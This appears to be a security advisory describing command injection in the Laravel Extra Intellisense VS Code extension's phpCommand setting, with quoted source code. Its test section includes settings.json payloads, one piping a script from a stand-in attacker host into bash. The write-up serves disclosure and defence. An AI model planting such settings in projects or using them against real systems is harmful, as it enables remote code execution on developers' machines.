 # Vulnerabilities in Laravel Extra Intellisense

## 1. Command Injection via User-Configurable PHP Command

### Description
The Laravel Extra Intellisense extension allows users to configure a custom command to execute PHP code via the `LaravelExtraIntellisense.phpCommand` setting. This setting is used directly in command execution without proper validation or sanitization. An attacker can craft a malicious workspace or settings.json file with a command injection payload in this configuration setting.

When the extension executes PHP code to fetch Laravel application data (routes, views, models, etc.), it uses the Node.js `child_process.exec()` method with the user-configured command template. The extension replaces `{code}` in the template with escaped PHP code, but doesn't validate the template itself, allowing arbitrary command injection.

### Impact
Critical - This vulnerability can lead to remote code execution on the system running VSCode with this extension. An attacker can execute arbitrary commands with the privileges of the user running VSCode, potentially leading to:
- System compromise
- Data theft
- Installation of malware
- Lateral movement within networks

### Currently Implemented Mitigations
The extension properly escapes quotes and special characters in the PHP code it generates, and includes a security warning in the README advising users to read the security note before using the extension.

### Missing Mitigations
- No validation of the `phpCommand` setting to ensure it only contains the expected structure and doesn't include malicious commands
- No use of safer execution alternatives like `execFile()` instead of `exec()`
- No sandboxing or restriction of the executed commands

### Preconditions
- The victim must have the Laravel Extra Intellisense extension installed
- The victim must open a project containing a malicious settings.json file or apply malicious settings

### Source Code Analysis
The vulnerability exists in the `runPhp` method in `helpers.ts`:

```typescript
static async runPhp(code: string, description: string|null = null) : Promise<string> {
    // Code escaping happens here for the PHP code itself
    code = code.replace(/\"/g, "\\\"");
    if (['linux', 'openbsd', 'sunos', 'darwin'].some(unixPlatforms => os.platform().includes(unixPlatforms))) {
        code = code.replace(/\$/g, "\\$");
        code = code.replace(/\\\\'/g, '\\\\\\\\\'');
        code = code.replace(/\\\\"/g, '\\\\\\\\\"');
    }

    // The vulnerable part: user-controlled command template is used directly
    let commandTemplate = vscode.workspace.getConfiguration("LaravelExtraIntellisense").get<string>('phpCommand') ?? "php -r \"{code}\"";
    let command = commandTemplate.replace("{code}", code);

    // Command is executed without validation
    let out = new Promise<string>(function (resolve, error) {
        cp.exec(command, {
            cwd: vscode.workspace.workspaceFolders && vscode.workspace.workspaceFolders.length > 0
                ? vscode.workspace.workspaceFolders[0].uri.fsPath : undefined
            },
            function (err, stdout, stderr) {
                // ...
            }
        );
    });
    return out;
}
```

This method is called from various provider classes like `RouteProvider`, `ViewProvider`, `ConfigProvider`, etc., whenever the extension needs to fetch data from the Laravel application. The command execution occurs automatically when the extension loads and periodically to refresh data.

### Security Test Case
To verify this vulnerability:

1. Create a test Laravel project
2. Create a `.vscode/settings.json` file with the following content:
   ```json
   {
     "LaravelExtraIntellisense.phpCommand": "php -r \"{code}\" & echo 'Arbitrary command execution' > /tmp/vscode-laravel-exploit.txt"
   }
   ```
3. Open the project in VSCode with the Laravel Extra Intellisense extension installed
4. Wait for the extension to activate and run its data collection
5. Check if the file `/tmp/vscode-laravel-exploit.txt` was created, which would confirm command injection occurred

For a more sophisticated attack, the payload could be:
```json
{
  "LaravelExtraIntellisense.phpCommand": "php -r \"{code}\" & curl -s http://attacker.com/payload.sh | bash"
}
```

This would execute the PHP code as intended but also download and run a malicious script from an attacker-controlled server.
